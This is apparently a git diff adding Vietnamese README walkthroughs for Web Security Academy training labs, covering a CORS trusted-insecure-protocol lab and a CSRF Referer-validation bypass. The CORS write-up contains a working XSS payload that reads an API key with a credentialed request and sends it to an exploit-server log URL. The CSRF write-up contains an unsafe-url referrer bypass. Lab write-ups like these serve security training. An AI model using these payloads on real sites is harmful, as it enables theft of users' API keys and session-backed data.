

w9-done

diff --git a/web-sec-academy/Cross_origin_resource_sharing(CORS)/CORS_vulnerability_with_trusted_insecure_protocols(REF)/README.md b/web-sec-academy/Cross_origin_resource_sharing(CORS)/CORS_vulnerability_with_trusted_insecure_protocols(REF)/README.md
@@ -1,0 +1,43 @@
+## CORS vulnerability with trusted insecure protocols (REFER)
+
+1. Login vào tài khoản được cấp. Gửi endpoint `/accountDetails` vào repeater thêm thử origin header với subdomain bất kỳ của lab nhận thấy `ACAO` header được reflect. 
+
+![Img1](\asset/../img/detect1.png)
+
+2. Trong chức năng check stock sẽ redirect đến 1 subdomain của lab. Nhận thấy lỗ hổng xss ở trang check stock.
+
+![Img2](\asset/../img/detect2.png)
+
+→ ta có thể sử dụng lỗ hổng XSS trên subdomain stock để thực hiện lấy API key. Bằng cách gửi từ trang subdomain stock gửi một xhr request via xss để có thể bypass whitelist origin header cho phép.
+
+3. Thử với tài khoản được cấp, chèn đoạn js sau vào trang check stock 
+
+```
+<script>
+    var req = new XMLHttpRequest();
+    req.onload = reqListener;
+	req.responseType = 'json';
+    req.open('get', 'https://0a85009604e969e6c17d7133009000b5.web-security-academy.net/accountDetails', true);
+    req.withCredentials = true;
+    req.send();
+    
+    function reqListener() {
+        document.write(req.response.apikey);
+    };
+</script>
+``` 
+
+![Img3](\asset/../img/exploit.png)
+
+4. Craft trang exploit, viết script để victim tự động chuyển hướng đến trang stock bị XSS
+
+```
+<script>
+    document.location="http://stock.0a85009604e969e6c17d7133009000b5.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.responseType = 'json';req.open('get','https://0a85009604e969e6c17d7133009000b5.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a9800ce04746907c17a70df012400dc.exploit-server.net/log?key='%2breq.response.apikey; };%3c/script>&storeId=1"
+</script>
+
+```
+
+5. Nhận được apikey 
+
+![Img4](\asset/../img/apikey.png)

diff --git a/web-sec-academy/Cross_site_request_forgery_vulnerability(CSRF)/CSRF_with_broken_Referer_validation/README.md b/web-sec-academy/Cross_site_request_forgery_vulnerability(CSRF)/CSRF_with_broken_Referer_validation/README.md
@@ -2,8 +2,14 @@
 
 1. Login vào account được cấp, đổi email. Craft trang exploit nhận thấy lab này khi không có referer hay không cùng host thì đều không hợp lệ
 
-2. Thử với giá trị referer = ``https://exploit-0a7d009c043e2d73c34b6916011d00bf.exploit-server.net/exploit/https://0aa900f804722dd5c3326a1100b2003d.web-security-academy.net/my-account`` thì thấy thành công
+2. Thử với giá trị referer có chứa trang host ``https://exploit-0a06007b03552a73c17eca65015b0082.exploit-server.net/0af7007203f42a1ac1d2cbf200ec0035.web-security-academy.net`` thì thấy thành công
 
 ![Img1](\asset/../img/detect.png)
 
-3.  Sử dụng thêm 
+3. Để referer có giá trị mong muốn như trên ta sẽ craft url trang exploit của mình thành 
+
+![Img2](\asset/../img/craft_url.png)
+
+4. Nhận thấy trường referer vẫn không hợp lệ. Bypass bằng cách set referer-policy thành giá trị `unsafe-url`. Khai báo thẻ meta `<meta name="referrer" content="unsafe-url">`
+
+![Img3](\asset/../img/done.png)

diff --git a/web-sec-academy/Cross_origin_resource_sharing(CORS)/README.md b/web-sec-academy/Cross_origin_resource_sharing(CORS)/README.md
@@ -1,0 +1,3 @@
+## Lab đã làm
+
+![Solved](\asset/../img/solved.png)
